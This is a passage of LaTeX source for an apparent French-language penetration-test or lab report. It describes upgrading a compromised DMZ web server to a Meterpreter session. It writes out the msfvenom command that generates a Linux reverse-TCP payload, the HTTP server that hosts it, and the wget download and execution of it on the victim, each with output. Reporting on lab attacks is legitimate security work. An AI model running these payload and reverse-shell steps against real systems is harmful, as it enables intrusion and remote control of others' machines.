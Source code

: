 \documentclass[12pt,a4paper,openany]{report}
\begin{document}
Pour pallier ces limites, le système compromis est upgradé avec \textbf{Meterpreter}, un agent avancé de post-exploitation du framework Metasploit.

\subsection{Génération du Payload}

\begin{lstlisting}[caption=Generation d'un payload Meterpreter Linux reverse TCP]
		$ msfvenom -p linux/x64/meterpreter/reverse_tcp \
		LHOST=192.168.100.150 \
		LPORT=4445 \
		-f elf \
		-o /tmp/meterpreter.elf
		
		[-] No platform was selected, choosing Msf::Module::Platform::Linux
		[-] No arch selected, selecting arch: x64
		No encoder specified, outputting raw payload
		Payload size: 130 bytes
		Final size of elf file: 250 bytes
		Saved as: /tmp/meterpreter.elf
	\end{lstlisting}

Le payload est un binaire ELF de 250 octets qui, une fois exécuté, établit une connexion inverse (reverse shell) vers l'attaquant sur le port 4445/TCP.

\subsection{Transfert et Exécution}

Le binaire est hébergé sur un serveur HTTP temporaire puis téléchargé :

\begin{lstlisting}[caption=Transfert du payload via HTTP]
		$ python3 -m http.server 8000
		Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
	\end{lstlisting}

Du serveur DMZ compromis :

\begin{lstlisting}[caption=Telechargement et execution du payload]
		telnetuser@DMZ-WebServer:~$ cd /tmp
		telnetuser@DMZ-WebServer:/tmp$ wget http://192.168.100.150:8000/meterpreter.elf
		--2026-03-04 15:08:12--  http://192.168.100.150:8000/meterpreter.elf
		Connecting to 192.168.100.150:8000... connected.
		HTTP request sent, awaiting response... 200 OK
		Length: 250 [application/octet-stream]
		Saving to: 'meterpreter.elf'
		
		meterpreter.elf   100%[========>]  250  --.-KB/s    in 0s
		
		telnetuser@DMZ-WebServer:/tmp$ chmod +x meterpreter.elf
		telnetuser@DMZ-WebServer:/tmp$ ./meterpreter.elf &
		[1] 4779
	\end{lstlisting}
\end{document}
